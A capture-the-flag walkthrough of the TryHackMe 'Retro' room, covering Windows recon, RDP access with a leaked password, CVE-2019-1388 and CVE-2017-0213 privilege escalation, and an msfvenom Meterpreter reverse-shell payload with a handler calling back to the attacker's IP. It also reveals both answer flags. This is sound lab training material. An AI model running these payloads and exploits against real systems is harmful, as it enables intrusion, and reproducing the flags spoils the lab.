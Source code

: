 # Retro

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Room Info

> **Name**
>
> 🔗 [Retro](https://tryhackme.com/room/retro)
>
> **Description**
>
> 📝 *There are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. An alternative version of this room is available in it's remixed version [Blaster](blaster.md).*
>
> ![](.gitbook/assets/retro.jpeg)
>
> **Target IP**
>
> 🎯 `10.10.181.110`

## Recon

```bash
mkdir retro
cd retro
nmap 10.10.181.110
    80/tcp   open  http
    3389/tcp open  ms-wbt-server

nmap -sV -sC -Pn -oA retro 10.10.181.110
```

```bash
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-05-13T11:52:02+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-05-12T11:48:35
|_Not valid after:  2023-11-11T11:48:35
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-05-13T11:51:57+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
```

Perform Web Server directories enumeration.

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.181.110/FUZZ

[Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 281ms]
    * FUZZ: retro
```

The enumeration found a folder named **`/retro`**.

Use a browser to navigate to:

- `http://10.10.181.110/retro/index.php/2019/12/09/ready-player-one/`

> 📌 Wade user left a comment with his password

![](.gitbook/assets/image-20230513140001737.png)

Use the credentials to login to the target via the open RDP Port `3389`

- `Wade`:`parzival`

> I suggest to set the `Remmina` RDP resolution to a higher one, **`e.g`**
>
> - Open Remmina, `+` to create a Quick RDP Connect, select the resolution and `Save as Default`
>
> ![](.gitbook/assets/image-20230513142438083.png)

```bash
remmina -c rdp://wade@10.10.181.110

# It will open with the default set up resolution
```

Open the **`user.txt`** file on Wade's user desktop to get the first flag.



<details>
<summary>Reveal Flag - user.txt: 🚩</summary>



`3b99fbdc6d430bfb51c72c651a261927`

![](.gitbook/assets/image-20230513140554540.png)

</details>



## Exploitation

Open `Internet Explorer` to initialize it.

Open `Google Chrome` and set it as **Default web browser** in Windows.

![](.gitbook/assets/image-20230513142712637.png)

The bookmarked link refers to the [CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) - Windows Certificate Dialog Elevation of Privilege Vulnerability.

Check the Recycle Bin and restore the `hhupd` file.

![](.gitbook/assets/image-20230513140747457.png)

Exploit the privesc vulnerability present in the Windows Certificate Dialog Box and run `cmd` with **Administrator** privileges.

![](.gitbook/assets/image-20230513141237572.png)

![](.gitbook/assets/image-20230513141306088.png)

- Even after the initialization of both the IE and Chrome browsers, there might not be any option for selecting the browser in the opened window.

![](.gitbook/assets/image-20230513152711279.png)

### Meterpreter

Generate a manual payload to get a Metasploit Meterpreter session on the target.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.18.65.48 LPORT=4444 -f exe -o unprivileged-payload.exe
```

```bash
# Start a webserver in the same payload directory
python -m http.server 80
```

Download the payload on the target browser from this link

- `http://10.18.65.48/unprivileged-payload.exe`

Open Metasploit and set up a handler to listen on the `4444` port

```bash
msfconsole -q

setg RHOSTS 10.10.181.110
setg RHOST 10.10.181.110
use exploit/multi/handler
# Same as the generated payload
set payload windows/x64/meterpreter/reverse_tcp 
set LHOST 10.18.65.48 
set LPORT 4444
run
```

Run the `unprivileged-payload.exe` file on the target machine

![Wade Privileges Meterpreter](.gitbook/assets/image-20230513160120206.png)

Get `systeminfo` from the target and save the output to a file.

```bash
shell
systeminfo
```

![](.gitbook/assets/image-20230513170606987.png)

## Privilege Escalation

Exploit the [CVE-2017-0213 - Windows COM Elevation of Privilege Vulnerability](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213)

- Download the `CVE-2017-0213_x64.zip` package, unzip it and upload the **`CVE-2017-0213_x86.exe`** to the target.

```bash
wget https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/2b944b52ee30f8833a21f0805d2627ca1f15383a/CVE-2017-0213/CVE-2017-0213_x86.zip
```

```bash
# In the Meterpreter session
upload CVE-2017-0213_x86.exe
```

Run the `CVE-2017-0213_x86.exe` file from the Meterpreter session or using the RDP connection on the target.

```bash
shell
.\CVE-2017-0213_x86.exe
```

- Check the `CMD` as Administrator session on the target.

![Elevated CMD Session](.gitbook/assets/image-20230513171909558.png)

```bash
cd c:\Users\Administrator\Desktop
type root.txt.txt
```



<details>
<summary>Reveal Flag - root.txt: 🚩</summary>


`7958b569565d7bd88d10c6f22d1c4063`

![](.gitbook/assets/image-20230513172450267.png)



</details>



- Remember that there can be other attack vectors to exploit target's vulnerabilities.

------

